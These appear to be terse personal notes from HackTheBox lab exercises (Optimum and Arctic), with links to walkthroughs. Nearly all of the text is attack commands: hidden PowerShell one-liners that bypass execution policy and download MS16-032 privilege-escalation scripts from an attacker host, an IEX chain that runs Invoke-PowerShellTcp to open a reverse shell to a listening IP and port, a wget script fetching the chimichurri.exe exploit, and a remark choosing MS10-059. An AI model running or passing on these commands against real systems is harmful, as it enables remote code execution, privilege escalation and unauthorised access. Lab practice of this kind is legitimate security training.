

powershell.exe -exec Bypass -nonI -window Hidden (new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/Invoke-MS16032.ps1','C:\Users\tolis\Desktop\hell.ps1')
https://btnrsec.com/hackthebox/optimum-walkthrough/
for final malware uppload
%systemroot%\sysnative\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -nonI -window Hidden .\hell.ps1
powershell.exe -exec Bypass -nonI -window Hidden (new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/Invoke-MS16032.ps1','C:\Users\tolis\Desktop\Invoke-MS16032.ps1')
%systemroot%\sysnative\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -nonI -window Hidden .\Invoke-MS16032.ps1
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5:80/ms16_032_intrd_mod.ps1');Invoke-MS16-032 "-NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.5:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.169 -Port 3003"

echo $url = "http://10.10.14.5/chimichurri.exe" >>wget.ps1
chose ms10-059

https://exp1o1t9r.com/2020/01/23/hackthebox-arctic-writeup/